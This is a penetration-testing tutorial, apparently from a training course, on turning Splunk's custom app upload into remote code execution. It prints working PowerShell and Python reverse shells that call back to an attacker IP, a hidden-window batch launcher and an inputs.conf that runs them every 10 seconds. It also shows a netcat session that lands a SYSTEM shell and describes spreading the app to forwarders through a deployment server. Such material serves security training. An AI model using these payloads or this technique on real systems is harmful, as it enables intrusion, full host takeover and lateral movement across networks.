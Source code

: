 # Attacking Splunk

As discussed in the previous section, we can gain remote code execution on Splunk by creating a custom application to run Python, Batch, Bash, or PowerShell scripts. From the Nmap discovery scan, we noticed that our target is a Windows server. Since Splunk comes with Python installed, we can create a custom Splunk application that gives us remote code execution using Python or a PowerShell script.

***

## Abusing Built-In Functionality

We can use [this](https://github.com/0xjpuff/reverse_shell_splunk) Splunk package to assist us. The `bin` directory in this repo has examples for [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) and [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Let's walk through this step-by-step.

To achieve this, we first need to create a custom Splunk application using the following directory structure.

```shell-session
$ tree splunk_shell/

splunk_shell/
├── bin
└── default

2 directories, 0 files
```

The `bin` directory will contain any scripts that we intend to run (in this case, a PowerShell reverse shell), and the default directory will have our `inputs.conf` file. Our reverse shell will be a PowerShell one-liner.

```powershell
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

The [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) file tells Splunk which script to run and any other conditions. Here we set the app as enabled and tell Splunk to run the script every 10 seconds. The interval is always in seconds, and the input (script) will only run if this setting is present.

```shell-session
$ cat inputs.conf 

[script://./bin/rev.py]
disabled = 0  
interval = 10  
sourcetype = shell 

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

We need the .bat file, which will run when the application is deployed and execute the PowerShell one-liner.

```shell-session
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

Once the files are created, we can create a tarball or `.spl` file.

```shell-session
$ tar -cvzf updater.tar.gz splunk_shell/

splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/default/
splunk_shell/default/inputs.conf
```

The next step is to choose `Install app from file` and upload the application.

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption><p>https://10.129.201.50:8000/en-US/manager/search/apps/local</p></figcaption></figure>

Before uploading the malicious custom app, let's start a listener using Netcat or [socat](https://linux.die.net/man/1/socat).

```shell-session
$ sudo nc -lnvp 443

listening on [any] 443 ...
```

On the `Upload app` page, click on browse, choose the tarball we created earlier and click `Upload`.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>https://10.129.201.50:8000/en-US/manager/appinstall/_upload?breadcrumbs=Settings%7C%2Fmanager%2Fsearch%2F%09Apps%7C%2Fmanager%2Fsearch%2Fapps%2Flocal</p></figcaption></figure>

As soon as we upload the application, a reverse shell is received as the status of the application will automatically be switched to `Enabled`.

```shell-session
$ sudo nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.50] 53145


PS C:\Windows\system32> whoami

nt authority\system


PS C:\Windows\system32> hostname

APP03


PS C:\Windows\system32>
```

In this case, we got a shell back as `NT AUTHORTY\SYSTEM`. If this were a real-world assessment, we could proceed to enumerate the target for credentials in the registry, memory, or stored elsewhere on the file system to use for lateral movement within the network. If this was our initial foothold in the domain environment, we could use this access to begin enumerating the Active Directory domain.

If we were dealing with a Linux host, we would need to edit the `rev.py` Python script before creating the tarball and uploading the custom malicious app. The rest of the process would be the same, and we would get a reverse shell connection on our Netcat listener and be off to the races.

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

If the compromised Splunk host is a deployment server, it will likely be possible to achieve RCE on any hosts with Universal Forwarders installed on them. To push a reverse shell out to other hosts, the application must be placed in the `$SPLUNK_HOME/etc/deployment-apps` directory on the compromised host. In a Windows-heavy environment, we will need to create an application using a PowerShell reverse shell since the Universal forwarders do not install with Python like the Splunk server.
